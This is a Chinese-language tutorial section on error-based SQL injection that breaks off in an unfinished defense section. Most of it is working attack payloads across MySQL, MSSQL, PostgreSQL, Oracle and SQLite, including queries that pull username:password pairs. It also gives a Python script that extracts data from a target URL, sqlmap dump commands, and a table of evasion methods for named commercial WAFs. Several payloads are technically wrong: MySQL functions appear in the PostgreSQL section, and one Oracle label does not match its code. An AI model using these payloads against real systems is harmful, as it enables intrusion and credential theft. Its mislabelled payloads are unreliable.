


## 2. 报错注入

报错注入（Error-based SQL Injection）是SQL注入中最直接的信息提取技术。与盲注需要逐位猜测不同，报错注入利用数据库自身的错误消息机制，将查询结果"附着"在错误信息中直接返回给攻击者。一条精心构造的payload，就能在毫秒内把数据库名、表名、字段内容完整暴露在页面上。

在实际渗透中，报错注入通常是最先尝试的手法——如果目标应用开启了错误回显（即使只在调试模式下），报错注入的效率远超布尔盲注和时间盲注。

### 2.1 报错注入的原理

报错注入的核心逻辑可以用一句话概括：**让数据库在执行你构造的子查询时产生错误，同时把这个子查询的结果嵌入到错误消息中返回。**

为什么会这样？因为MySQL等数据库在报错时，会尝试对错误涉及的表达式求值，然后把求值结果拼进错误消息。如果我们能让一个包含敏感数据的子查询参与这个求值过程，敏感数据就会出现在错误消息中。



**关键前提条件：**

| 条件 | 说明 |
|------|------|
| 错误回显开启 | 应用将MySQL错误信息输出到页面上，或者通过其他通道（如HTTP响应头、自定义错误页面的某个字段）可见 |
| MySQL版本适用 | 不同函数对MySQL版本有要求（如extractvalue要求MySQL 5.1+） |
| 子查询可执行 | 注入点允许执行子查询（绝大多数情况都允许） |
| 足够的回显空间 | 错误消息能显示足够长度的字符（否则需要分段截取） |

**如何判断目标是否适合报错注入？**

在注入点尝试以下payload，观察页面是否返回MySQL错误信息：

```sql
-- 测试是否存在错误回显
' AND 1=extractvalue(1,concat(0x7e,(SELECT database()),0x7e))-- -
-- 如果页面出现了类似 XPATH syntax error: '~数据库名~' 的信息，说明报错注入可用

-- 如果不确定是字符型还是数字型注入
" AND 1=extractvalue(1,concat(0x7e,(SELECT database()),0x7e))-- -
```

如果页面只显示通用的"服务器错误"或自定义错误页面，说明错误消息被屏蔽了，需要换用盲注或堆叠注入。

### 2.2 MySQL报错函数详解

#### 2.2.1 extractvalue() — XML路径解析报错

**原理：** `extractvalue(xml_doc, xpath_expr)` 是MySQL的XML处理函数，当XPath表达式语法非法时，MySQL会抛出包含XPath表达式内容的错误消息。我们把要查询的数据拼进XPath表达式里，让MySQL"报错时顺便把数据告诉我们"。

**版本要求：** MySQL 5.1.5+

**基本语法：**

```sql
-- 格式
' AND extractvalue(1, concat(0x7e, (SELECT 要查询的内容), 0x7e))-- -

-- 0x7e是波浪号 ~ 的十六进制，起标记作用，方便在错误消息中定位数据的起止
```

**实战示例：**

```sql
-- 1. 获取当前数据库名
' AND extractvalue(1, concat(0x7e, (SELECT database()), 0x7e))-- -
-- 返回: XPATH syntax error: '~my_database~'

-- 2. 获取所有数据库名
' AND extractvalue(1, concat(0x7e, (SELECT GROUP_CONCAT(schema_name) FROM information_schema.schemata), 0x7e))-- -
-- 返回: XPATH syntax error: '~information_schema,my_db,test~'

-- 3. 获取当前数据库的所有表名
' AND extractvalue(1, concat(0x7e, (SELECT GROUP_CONCAT(table_name) FROM information_schema.tables WHERE table_schema = database()), 0x7e))-- -

-- 4. 获取指定表的字段名
' AND extractvalue(1, concat(0x7e, (SELECT GROUP_CONCAT(column_name) FROM information_schema.columns WHERE table_name = 'users'), 0x7e))-- -

-- 5. 提取具体数据
' AND extractvalue(1, concat(0x7e, (SELECT GROUP_CONCAT(username, 0x3a, password) FROM users), 0x7e))-- -
-- 0x3a是冒号，分隔username和password
```

**`concat`中的分隔符选择：**

| 字符 | 十六进制 | 用途 |
|------|----------|------|
| `~` | `0x7e` | 数据的前后标记，最常用 |
| `:` | `0x3a` | 分隔同一行中的多个字段 |
| `,` | `0x2c` | 分隔GROUP_CONCAT的多个结果行 |
| `@` | `0x40` | 替代`~`，当`~`被WAF过滤时使用 |
| `^` | `0x5e` | 替代`~`，绕过某些WAF规则 |

**`concat` vs `concat_ws`：** 当子查询返回NULL时，`concat`会直接返回NULL导致整条payload失效。此时改用`concat_ws`可以安全地跳过NULL值：

```sql
-- 如果concat失效，尝试concat_ws
' AND extractvalue(1, concat_ws(0x7e, 0x7e, (SELECT database()), 0x7e))-- -
```

#### 2.2.2 updatexml() — XML更新报错

**原理：** `updatexml(xml_doc, xpath_expr, new_value)` 同样是XML处理函数，触发逻辑与extractvalue完全一致——非法XPath表达式导致报错并回显数据。区别在于updatexml有三个参数。

**版本要求：** MySQL 5.1.5+

**基本语法：**

```sql
-- 格式
' AND updatexml(1, concat(0x7e, (SELECT 要查询的内容), 0x7e), 1)-- -
```

**实战示例：**

```sql
-- 1. 获取数据库版本
' AND updatexml(1, concat(0x7e, (SELECT version()), 0x7e), 1)-- -
-- 返回: XPATH syntax error: '~5.7.34~'

-- 2. 获取当前用户
' AND updatexml(1, concat(0x7e, (SELECT user()), 0x7e), 1)-- -

-- 3. 获取用户名和密码（一行多字段）
' AND updatexml(1, concat(0x7e, (SELECT GROUP_CONCAT(username, 0x3a, password) FROM users), 0x7e), 1)-- -

-- 4. 判断当前用户权限
' AND updatexml(1, concat(0x7e, (SELECT super_priv FROM mysql.user WHERE user = substring_index(user(), '@', 1) LIMIT 0, 1), 0x7e), 1)-- -
```

**extractvalue vs updatexml 选择策略：**

两个函数的原理和返回内容几乎完全一致，实际使用中哪个能绕过WAF就用哪个。如果两个都没被过滤，优先用`extractvalue`——payload更短，留更多空间给子查询内容。在MySQL 5.7+中两者表现一致；在MySQL 8.0+中仍有相同行为。

#### 2.2.3 floor() + count() + group by — 主键冲突报错

**原理：** 这是最复杂但最经典的报错注入手法。核心机制如下：

1. `RAND(0)` 生成一个伪随机序列，每次计算都会产生固定序列的值
2. `FLOOR(RAND(0)*2)` 得到0和1交替出现的序列
3. `GROUP BY x` 会对结果分组，过程中会建立临时表
4. 当分组遇到重复键时（因为RAND(0)的伪随机性在特定场景下导致重复），MySQL报主键冲突错误
5. 错误消息中会包含产生冲突的键值——而这个键值是我们构造的包含敏感数据的表达式

**版本要求：** MySQL 5.0+（几乎所有生产版本）

**基本语法：**

```sql
-- 格式（注意嵌套子查询的结构）
' AND (SELECT 1 FROM (SELECT COUNT(*), CONCAT((SELECT 要查询的内容), FLOOR(RAND(0)*2))x FROM information_schema.tables GROUP BY x)a)-- -
```

**为什么需要两层子查询？**

直接写 `GROUP BY FLOOR(RAND(0)*2)` 在某些MySQL版本中不会触发报错，需要通过子查询强制MySQL先计算RAND(0)，再进行GROUP BY。外层再包一层 `SELECT 1 FROM (...)a` 是为了把它变成一个合法的SELECT子句。

**实战示例：**

```sql
-- 1. 获取数据库名
' AND (SELECT 1 FROM (SELECT COUNT(*), CONCAT((SELECT database()), FLOOR(RAND(0)*2))x FROM information_schema.tables GROUP BY x)a)-- -
-- 返回: Duplicate entry 'my_database1' for key 'group_key'

-- 2. 获取表名
' AND (SELECT 1 FROM (SELECT COUNT(*), CONCAT((SELECT table_name FROM information_schema.tables WHERE table_schema = database() LIMIT 0, 1), FLOOR(RAND(0)*2))x FROM information_schema.tables GROUP BY x)a)-- -

-- 3. 获取字段名
' AND (SELECT 1 FROM (SELECT COUNT(*), CONCAT((SELECT column_name FROM information_schema.columns WHERE table_name = 'users' LIMIT 0, 1), FLOOR(RAND(0)*2))x FROM information_schema.tables GROUP BY x)a)-- -

-- 4. 获取数据（需要逐条，因为只能返回一行）
' AND (SELECT 1 FROM (SELECT COUNT(*), CONCAT((SELECT username FROM users LIMIT 0, 1), FLOOR(RAND(0)*2))x FROM information_schema.tables GROUP BY x)a)-- -

-- 使用GROUP_CONCAT获取多条
' AND (SELECT 1 FROM (SELECT COUNT(*), CONCAT((SELECT GROUP_CONCAT(username, 0x3a, password) FROM users), FLOOR(RAND(0)*2))x FROM information_schema.tables GROUP BY x)a)-- -
```

**floor报错的局限性：**

- 在MySQL 8.0.20+中，RAND()的行为发生了变化，floor报错注入可能不再有效
- GROUP BY的临时表大小受`tmp_table_size`和`max_heap_table_size`限制
- `information_schema.tables`的行数会影响报错成功率，行数太少可能不触发

#### 2.2.4 exp() — 数值溢出报错

**原理：** `exp(x)` 计算e的x次方。当x足够大时（约超过709），结果超出DOUBLE类型的范围，MySQL抛出DOUBLE overflow错误。利用子查询构造一个超大数值，让MySQL在报错消息中泄露子查询的结果。

**版本要求：** MySQL 5.5及以下（MySQL 5.6+修复了此溢出行为，不再报错）

**基本语法：**

```sql
' AND exp(~(SELECT * FROM (SELECT 要查询的内容)a))-- -
```

这里`~`是按位取反操作，对字符串取反会得到一个很大的整数，从而使exp()溢出。

**实战示例：**

```sql
-- 1. 获取数据库名
' AND exp(~(SELECT * FROM (SELECT database())a))-- -
-- 返回: DOUBLE value is out of range in 'exp(~((SELECT 'my_database')))' 

-- 2. 获取数据
' AND exp(~(SELECT * FROM (SELECT GROUP_CONCAT(username, 0x3a, password) FROM users)a))-- -
```

**注意：** 由于版本限制，exp()在现代MySQL环境中基本无法使用。了解其原理有助于理解报错注入的思路，但实际渗透中应优先使用extractvalue/updatexml/floor。

#### 2.2.5 其他MySQL报错函数

除上述四大经典函数外，MySQL还有多种可以触发报错注入的函数：

**polygon() / linestring() / multipoint() — 空间数据类型报错：**

```sql
-- 版本要求：MySQL 5.x（空间函数在不同版本行为差异较大）
-- 原理：非法几何坐标参数触发Geometry报错

' AND polygon((SELECT * FROM (SELECT database())a))-- -
' AND linestring((SELECT * FROM (SELECT database())a))-- -
' AND multipoint((SELECT * FROM (SELECT database())a))-- -
```

**ST_X() / ST_Y() — 空间坐标提取报错：**

```sql
-- MySQL 5.7+
' AND ST_X((SELECT * FROM (SELECT database())a))-- -
' AND ST_Y((SELECT * FROM (SELECT database())a))-- -
```

**JSON相关函数 — JSON解析报错：**

```sql
-- MySQL 5.7+
-- json_type对非法JSON参数报错
' AND json_type((SELECT * FROM (SELECT database())a))-- -

-- json_keys
' AND json_keys((SELECT * FROM (SELECT database())a))-- -
```

**GTID_SUBSET / GTID_SUBTRACT — MySQL 5.6+的GTID函数报错：**

```sql
-- MySQL 5.6+
' AND gtid_subset((SELECT * FROM (SELECT database())a), 1)-- -
' AND gtid_subtract((SELECT * FROM (SELECT database())a), 1)-- -
```

**各种数学函数的数值溢出：**

```sql
-- 某些MySQL版本中，大数值计算会触发报错
' AND (SELECT 1 FROM (SELECT COUNT(*), CONCAT((SELECT database()), 0x7e, (SELECT EXP(~(SELECT * FROM (SELECT 1)a))))x FROM information_schema.tables GROUP BY x)a)-- -
```

**MySQL 8.0+ 新增可用函数：**

```sql
-- MySQL 8.0中某些旧函数失效后，可以尝试这些
' AND JSON_ARRAY_APPEND((SELECT * FROM (SELECT database())a), 1, 1)-- -
```

### 2.3 其他数据库的报错注入

报错注入不限于MySQL。不同数据库有各自的报错机制：

#### 2.3.1 Microsoft SQL Server (MSSQL)

MSSQL的报错注入利用`CONVERT`或`CAST`的类型转换错误，以及`RAISERROR`等机制。

```sql
-- 1. CONVERT类型转换报错（最常用）
' AND 1=CONVERT(int, (SELECT TOP 1 table_name FROM information_schema.tables))-- -
-- 返回: Conversion failed when converting the varchar value 'users' to data type int.

-- 2. 获取所有表名
' AND 1=CONVERT(int, (SELECT TOP 1 table_name FROM information_schema.tables WHERE table_name NOT IN (SELECT TOP 0 table_name FROM information_schema.tables)))-- -

-- 3. CAST类型转换报错
' AND 1=CAST((SELECT TOP 1 db_name()) AS int)-- -

-- 4. 获取字段数据
' AND 1=CONVERT(int, (SELECT TOP 1 username FROM users))-- -

-- 5. 利用错误级别（需要权限较高）
'; EXEC master..xp_msver;-- -
```

**MSSQL报错注入的关键特点：**
- CONVERT/CAST报错中直接包含varchar值，无需额外拼接
- TOP 1配合NOT IN子句可以逐条遍历
- 支持堆叠注入时，可以用`RAISERROR`主动构造错误

#### 2.3.2 PostgreSQL

PostgreSQL的报错注入利用类型转换和XML函数。

```sql
-- 1. CAST类型转换报错
' AND 1=CAST((SELECT database()) AS int)-- -
-- 返回: invalid input syntax for integer: "my_database"

-- 2. CAST获取表名
' AND 1=CAST((SELECT table_name FROM information_schema.tables LIMIT 1) AS int)-- -

-- 3. XML函数报错（需要DBA权限创建XML扩展）
' AND extractvalue(1, concat(0x7e, (SELECT current_database()), 0x7e))-- -

-- 4. 利用INTO OUTFILE的错误（需要文件写权限）
' AND (SELECT 1 FROM (SELECT COUNT(*), CONCAT((SELECT current_database()), FLOOR(RANDOM()*2))x FROM pg_catalog.pg_tables GROUP BY x)a)-- -

-- 5. 利用generate_subscripts报错
' AND 1=ANY(SELECT generate_subscripts((SELECT current_database()), 1))-- -
```

**PostgreSQL报错注入特点：**
- CAST/CONVERT报错是最可靠的方法
- 不像MySQL有丰富的专用报错函数
- 堆叠注入时可以使用`DO`语句块和`RAISE`主动抛出错误

#### 2.3.3 Oracle

Oracle的报错注入利用类型转换和XML函数。

```sql
-- 1. UTL_INADDR.GET_HOST_ADDRESS 主机名解析报错
' AND 1=CTXSYS.DRITHSX.SN(1, (SELECT banner FROM v$version WHERE ROWNUM=1))-- -

-- 2. CTXSYS.DRITHSX.SN 报错
' AND 1=CTXSYS.DRITHSX.SN(1, (SELECT user FROM dual))-- -

-- 3. XMLType报错（最常用）
' AND (SELECT UPPER(XMLType(chr(60)||chr(58)||(SELECT user FROM dual)||chr(62))) FROM dual) IS NOT NULL-- -
-- 返回的错误消息中包含子查询结果

-- 4. 利用dbms_xdb_version.checkin
' AND (SELECT dbms_xdb_version.checkin((SELECT banner FROM v$version WHERE ROWNUM=1)) FROM dual) IS NOT NULL-- -

-- 5. to_number类型转换报错
' AND 1=(SELECT to_number((SELECT banner FROM v$version WHERE ROWNUM=1)) FROM dual)-- -
```

**Oracle报错注入特点：**
- 函数名较长，payload容易超长度限制
- `ROWNUM=1`用于限制只返回一行
- 需要使用`FROM dual`（Oracle的虚拟表）
- XMLType报错是最通用的手法

#### 2.3.4 SQLite

SQLite的报错注入场景较少，但当应用使用SQLite时同样有效。

```sql
-- 1. 利用UNION的列数不匹配报错
' UNION SELECT 1,2,3,4,(SELECT group_concat(name) FROM sqlite_master WHERE type='table')-- -
-- 需要猜对列数，错误消息通常不会直接显示数据

-- 2. 利用zeroblob触发错误
' AND zeroblob((SELECT length(sql) FROM sqlite_master LIMIT 1))-- -

-- 3. SQLite通常需要结合盲注使用，因为错误回显较弱
```

### 2.4 报错结果长度限制与绕过

报错注入的一个关键限制是**错误消息的长度**。MySQL的extractvalue和updatexml函数返回的错误消息中，数据部分最大只有32个字符。当目标数据超过32字符时，会被截断。

#### 2.4.1 substr截取法（最常用）

```sql
-- substr(字符串, 起始位置, 长度) —— 起始位置从1开始
-- 每次获取32个字符，调整起始位置逐段获取

-- 第1段：字符1~32
' AND extractvalue(1, concat(0x7e, substr((SELECT GROUP_CONCAT(schema_name) FROM information_schema.schemata), 1, 32), 0x7e))-- -

-- 第2段：字符33~64
' AND extractvalue(1, concat(0x7e, substr((SELECT GROUP_CONCAT(schema_name) FROM information_schema.schemata), 33, 32), 0x7e))-- -

-- 第3段：字符65~96
' AND extractvalue(1, concat(0x7e, substr((SELECT GROUP_CONCAT(schema_name) FROM information_schema.schemata), 65, 32), 0x7e))-- -

-- 直到返回空或报错结束
```

**自动化脚本（Python）：**

```python
import requests

url = "http://target/page"
result = ""
pos = 1

while True:
    payload = f"' AND extractvalue(1, concat(0x7e, substr((SELECT GROUP_CONCAT(table_name) FROM information_schema.tables WHERE table_schema=database()), {pos}, 32), 0x7e))-- -"
    resp = requests.get(url, params={"id": payload})
    
    # 从错误消息中提取数据
    start = resp.text.find("~") + 1
    end = resp.text.rfind("~")
    
    if start == 0 or end <= start:
        break
    
    data = resp.text[start:end]
    result += data
    pos += 32
    
    if len(data) < 32:
        break  # 最后一段，不足32字符

print(f"Extracted: {result}")
```

#### 2.4.2 limit逐条获取法

当GROUP_CONCAT的结果太长时，用LIMIT逐条获取每行数据：

```sql
-- 获取第1个表名
' AND extractvalue(1, concat(0x7e, (SELECT table_name FROM information_schema.tables WHERE table_schema = database() LIMIT 0, 1), 0x7e))-- -

-- 获取第2个表名
' AND extractvalue(1, concat(0x7e, (SELECT table_name FROM information_schema.tables WHERE table_schema = database() LIMIT 1, 1), 0x7e))-- -

-- 获取第3个表名
' AND extractvalue(1, concat(0x7e, (SELECT table_name FROM information_schema.tables WHERE table_schema = database() LIMIT 2, 1), 0x7e))-- -

-- limit M,N 表示跳过M条取N条
```

#### 2.4.3 left/right拼接法

当需要处理的数据恰好在32字符边界被截断时：

```sql
-- left()获取前32字符
' AND extractvalue(1, concat(0x7e, left((SELECT password FROM users LIMIT 0, 1), 32), 0x7e))-- -

-- right()获取后32字符（去掉前32位后的部分）
' AND extractvalue(1, concat(0x7e, right((SELECT password FROM users LIMIT 0, 1), length((SELECT password FROM users LIMIT 0, 1)) - 32), 0x7e))-- -
```

#### 2.4.4 mid()替代substr()

```sql
-- mid()和substr()功能完全相同，当substr被WAF过滤时使用
' AND extractvalue(1, concat(0x7e, mid((SELECT GROUP_CONCAT(table_name) FROM information_schema.tables WHERE table_schema=database()), 1, 32), 0x7e))-- -
```

#### 2.4.5 字符逐个提取法

当以上方法都不适用时（如WAF对substr/mid进行过滤），可以逐字符提取：

```sql
-- 使用substring + ascii逐字符获取
' AND extractvalue(1, concat(0x7e, ascii(substring((SELECT database()), 1, 1)), 0x7e))-- -
-- 返回: XPATH syntax error: '~109~'（109是字符'm'的ASCII码）
-- 虽然效率低，但可以在所有报错函数上通用
```

### 2.5 WAF绕过技巧

在实际渗透中，WAF（Web应用防火墙）通常会拦截报错注入的常见关键词。以下是经过实战验证的绕过策略：

#### 2.5.1 关键字替换与混淆

```sql
-- 1. 大小写混合（绕过简单的正则匹配）
' AND ExtractValue(1, Concat(0x7e, (Select database()), 0x7e))-- -
' AND EXTRACTVALUE(1, CONCAT(0x7e, (SELECT DATABASE()), 0x7e))-- -
' AND eXtRaCtVaLuE(1, cOnCaT(0x7e, (sElEcT dAtAbAsE()), 0x7e))-- -

-- 2. 使用注释符拆分关键字
' AND EX/**/TRACTVALUE(1, CON/**/CAT(0x7e, (SEL/**/ECT database()), 0x7e))-- -
' AND EXTR/**/ACTVALUE(1, CONCAT(0x7e, (SEL/**/ECT data/**/base()), 0x7e))-- -

-- 3. 使用内联注释（MySQL特有）
' AND /*!50000extractvalue*/(1, /*!50000concat*/(0x7e, (/*!50000select*/ database()), 0x7e))-- -
-- /*!50000*/ 表示在MySQL 5.0+版本中执行，低于此版本的会被当作注释

-- 4. 双写绕过（部分WAF删除一次关键字后剩余的拼接起来）
' AND EXTRextractvalueACTVALUE(1, concat(0x7e, (select database()), 0x7e))-- -
```

#### 2.5.2 编码绕过

```sql
-- 1. 十六进制编码字符串
-- 将数据库名等字符串转为十六进制，避免直接出现敏感字符串
' AND extractvalue(1, concat(0x7e, (SELECT unhex(hex(table_name)) FROM information_schema.tables WHERE table_schema = database() LIMIT 0, 1), 0x7e))-- -

-- 2. 使用char()函数构造字符串
-- 比如 'users' = char(117,115,101,114,115)
' AND extractvalue(1, concat(0x7e, (SELECT GROUP_CONCAT(column_name) FROM information_schema.columns WHERE table_name = char(117,115,101,114,115)), 0x7e))-- -

-- 3. 使用unhex()绕过十六进制过滤
' AND extractvalue(1, unhex(concat(3731, hex((SELECT database())), 3731)))-- -

-- 4. URL编码（在某些场景下有效）
-- %27%20AND%20extractvalue(1,concat(0x7e,(SELECT%20database()),0x7e))--%20-

-- 5. 双重URL编码
-- %2527%2520AND%2520extractvalue(1,concat(0x7e,(SELECT%2520database()),0x7e))--%2520-
```

#### 2.5.3 空格绕过

```sql
-- 1. 使用括号代替空格
' AND(extractvalue(1,concat(0x7e,(SELECT(database())),0x7e)))-- -
' AND(extractvalue(1,concat(0x7e,(SELECT(GROUP_CONCAT(table_name))FROM(information_schema.tables)WHERE(table_schema=database())),0x7e)))-- -

-- 2. 使用特殊字符代替空格
'/**/AND/**/extractvalue(1,concat(0x7e,(SELECT/**/database()),0x7e))-- -
'%09AND%09extractvalue(1,concat(0x7e,(SELECT%09database()),0x7e))-- -
'%0aAND%0aextractvalue(1,concat(0x7e,(SELECT%0adatabase()),0x7e))-- -

-- 3. 使用+号（在URL参数中+等于空格）
'+AND+extractvalue(1,concat(0x7e,(SELECT+database()),0x7e))--+-
```

#### 2.5.4 函数嵌套与替代

```sql
-- 1. 双重concat嵌套
' AND extractvalue(1,concat(0x7e,concat((SELECT database())),0x7e))-- -

-- 2. 使用ELT替代concat（按序号返回参数）
' AND extractvalue(1,ELT(1,concat(0x7e,(SELECT database()),0x7e)))-- -

-- 3. 使用IF嵌套
' AND extractvalue(1,IF(1,concat(0x7e,(SELECT database()),0x7e),1))-- -

-- 4. 使用REPLACE配合hex避免特殊字符
' AND extractvalue(1,replace(concat(0x7e,(SELECT database()),0x7e),0x7e,0x2a))-- -
```

#### 2.5.5 常见WAF拦截特征及绕过方案

| WAF产品 | 常见拦截特征 | 绕过策略 |
|---------|-------------|----------|
| ModSecurity | 拦截extractvalue/updatexml关键字 | 内联注释`/*!*/`拆分，大小写混淆 |
| Cloudflare | 识别SQL函数+子查询组合 | 双重URL编码，换用floor报错 |
| 长亭雷池 | 深度检测SQL语法树 | Unicode编码，换用polygon等冷门函数 |
| 安恒明御 | 关键字+特殊字符组合 | 括号代替空格，hex编码字符串 |
| 安全狗 | 简单正则匹配SQL关键字 | 大小写混合，注释拆分 |
| 百度云加速 | 频率+关键字组合检测 | 降低请求频率，使用随机延时 |

### 2.6 实战工作流程

一个完整的报错注入实战流程如下：



**Step 1：确认注入点类型**

```sql
-- 数字型：不需要闭合引号
?id=1 AND extractvalue(1, concat(0x7e, (SELECT database()), 0x7e))-- -

-- 字符型-单引号
?id=1' AND extractvalue(1, concat(0x7e, (SELECT database()), 0x7e))-- -

-- 字符型-双引号
?id=1" AND extractvalue(1, concat(0x7e, (SELECT database()), 0x7e))-- -

-- 括号型
?id=1') AND extractvalue(1, concat(0x7e, (SELECT database()), 0x7e))-- -
```

**Step 2：测试错误回显**

```sql
-- 最简单的测试payload
?id=1' AND 1=extractvalue(1, 0x7e)-- -
-- 如果页面显示 XPATH syntax error: '~'，说明有回显
```

**Step 3：逐步获取数据**

```sql
-- 3.1 获取数据库版本和当前数据库
?id=-1' AND extractvalue(1, concat(0x7e, version(), 0x7e, database(), 0x7e))-- -

-- 3.2 获取所有数据库名
?id=-1' AND extractvalue(1, concat(0x7e, (SELECT GROUP_CONCAT(schema_name) FROM information_schema.schemata), 0x7e))-- -

-- 3.3 获取目标数据库的表名
?id=-1' AND extractvalue(1, concat(0x7e, (SELECT GROUP_CONCAT(table_name) FROM information_schema.tables WHERE table_schema = '目标数据库名'), 0x7e))-- -

-- 3.4 获取目标表的字段名
?id=-1' AND extractvalue(1, concat(0x7e, (SELECT GROUP_CONCAT(column_name) FROM information_schema.columns WHERE table_name = '目标表名'), 0x7e))-- -

-- 3.5 提取数据（用户名:密码）
?id=-1' AND extractvalue(1, concat(0x7e, (SELECT GROUP_CONCAT(username, 0x3a, password SEPARATOR 0x0a) FROM users), 0x7e))-- -
```

### 2.7 常见错误与排错

在实际操作中，报错注入经常会遇到各种问题。以下是最常见的错误和对应的解决方案：

| 问题现象 | 原因分析 | 解决方案 |
|---------|---------|---------|
| 页面无任何错误信息 | 错误回显被关闭或自定义错误页面 | 换用盲注或尝试堆叠注入 |
| 报错但没有数据 | 子查询返回NULL | 换用concat_ws，或检查子查询条件 |
| 返回的数据被截断 | extractvalue/updatexml的32字符限制 | 使用substr分段获取 |
| floor报错不触发 | MySQL 8.0+或表行数不足 | 换用extractvalue/updatexml |
| 单引号被转义 | 应用使用了addslashes等转义 | 尝试宽字节注入、数字型注入、或堆叠注入 |
| 空格被过滤 | WAF拦截空格 | 使用括号、注释符`/**/`、`%0a`、`%09`替代 |
| select/from被过滤 | WAF关键字过滤 | 大小写混合、内联注释`/*!*/`、双写 |
| concat被过滤 | WAF关键字过滤 | 使用concat_ws或嵌套concat |
| 子查询超时 | 查询数据量过大 | 使用LIMIT限制每次查询行数 |
| 返回特殊字符乱码 | 字符集问题 | 在concat中使用convert()指定字符集 |

**调试技巧：**

```sql
-- 1. 先测试最简单的payload，确认报错函数可用
' AND extractvalue(1, 0x7e)-- -

-- 2. 测试子查询是否能独立执行（用UNION测试）
' UNION SELECT (SELECT database()), 2-- -

-- 3. 如果extractvalue不行，换updatexml
' AND updatexml(1, concat(0x7e, (SELECT database()), 0x7e), 1)-- -

-- 4. 如果两个XML函数都不行，用floor
' AND (SELECT 1 FROM (SELECT COUNT(*), CONCAT((SELECT database()), FLOOR(RAND(0)*2))x FROM information_schema.tables GROUP BY x)a)-- -

-- 5. 使用convert判断是否有基础的报错回显
' AND 1=convert((SELECT database()), SIGNED)-- -
```

### 2.8 报错注入与其他注入技术的对比

| 维度 | 报错注入 | UNION注入 | 布尔盲注 | 时间盲注 |
|------|---------|-----------|---------|---------|
| 前提条件 | 错误回显 | 已知列数和类型 | 页面有布尔差异 | 能触发时间延迟 |
| 速度 | 极快（一次一个字段值） | 快（一次一个表） | 慢（逐字符猜测） | 极慢（逐字符+延时） |
| 数据长度限制 | 32字符/次 | 无明显限制 | 无限制 | 无限制 |
| 绕过WAF难度 | 中等（函数名多） | 较难（union+select） | 容易 | 容易 |
| 适用场景 | 开发/测试环境、配置不当的生产环境 | 页面有回显点 | 无回显但有布尔差异 | 只有时间差异 |
| 数据库兼容性 | MySQL/MSSQL/PG/Oracle各有函数 | 几乎所有数据库 | 几乎所有数据库 | 几乎所有数据库 |

**最佳实践：** 在渗透测试中，应按照报错注入 → UNION注入 → 布尔盲注 → 时间盲注的顺序依次尝试。报错注入的效率最高，能在最短时间内提取最多数据。

### 2.9 自动化工具辅助

虽然手动注入理解原理很重要，但实战中通常借助工具提高效率：

**sqlmap：**

```bash
# sqlmap自动检测并使用报错注入
sqlmap -u "http://target/page?id=1" --technique=E --level=3 --risk=2

# --technique=E 表示只使用报错注入
# --technique=BEU 表示使用布尔、报错和UNION注入

# 指定特定的报错函数
sqlmap -u "http://target/page?id=1" --technique=E --dbms=mysql

# 提取指定数据库的所有数据
sqlmap -u "http://target/page?id=1" --technique=E -D target_db --dump
```

**Burp Suite + 手动：**

使用Burp Suite的Intruder模块自动化substr分段提取：

1. 将报错注入payload发送到Intruder
2. 在substr的起始位置标记为变量
3. 设置Payload类型为Numbers，从1开始步长为32
4. 从响应中提取错误消息中的数据部分
5. 用Grep - Extract功能自动收集数据

### 2.10 防御与修复

理解攻击手法的最终目的是为了更好地防御。以下是针对报错注入的防御措施：

**核心防御：参数化查询（预编译语句）**

```java
// Java - PreparedStatement
String sql = "SELECT * FROM users WHERE id = ?";
PreparedStatement stmt = conn.prepareStatement(sql);
stmt.setInt(1, userId);
ResultSet rs = stmt.executeQuery();

// 错误：直接拼接SQL
String sql = "SELECT * FROM users WHERE id = " + userId;  // 危险！
```

```python
# Python - 参数化查询
cursor.execute("SELECT * FROM users WHERE id = %s", (user_id,))
# 错误：f-string拼接
cursor.execute(f"SELECT * FROM users WHERE id = {user_id}")  # 危险！
```

**关闭错误回显（生产环境必须）：**

```php
// PHP - 生产环境关闭错误显示
